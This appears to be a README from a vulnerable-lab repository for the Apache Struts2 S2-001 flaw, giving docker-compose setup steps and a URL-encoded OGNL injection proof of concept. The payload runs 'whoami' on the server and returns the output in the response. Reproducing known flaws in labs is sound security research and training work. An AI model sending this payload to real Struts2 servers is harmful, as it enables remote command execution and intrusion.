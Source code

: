### s2-001 vuldocker

## 测试环境搭建

```
docker-compose build
docker-compose up -d

安全完之后直接访问http://0.0.0.0:30083
```

```
poc:

%25%7B%23a%3D%28new%20java.lang.ProcessBuilder%28new%20java.lang.String%5B%5D%7B%22whoami%22%7D%29%29.redirectErrorStream%28true%29.start%28%29%2C%23b%3D%23a.getInputStream%28%29%2C%23c%3Dnew%20java.io.InputStreamReader%28%23b%29%2C%23d%3Dnew%20java.io.BufferedReader%28%23c%29%2C%23e%3Dnew%20char%5B50000%5D%2C%23d.read%28%23e%29%2C%23f%3D%23context.get%28%22com.opensymphony.xwork2.dispatcher.HttpServletResponse%22%29%2C%23f.getWriter%28%29.println%28new%20java.lang.String%28%23e%29%29%2C%23f.getWriter%28%29.flush%28%29%2C%23f.getWriter%28%29.close%28%29%7D

```

![1.png](https://raw.githubusercontent.com/Loneyers/vuldocker/master/struts2/s2-001/1.png)

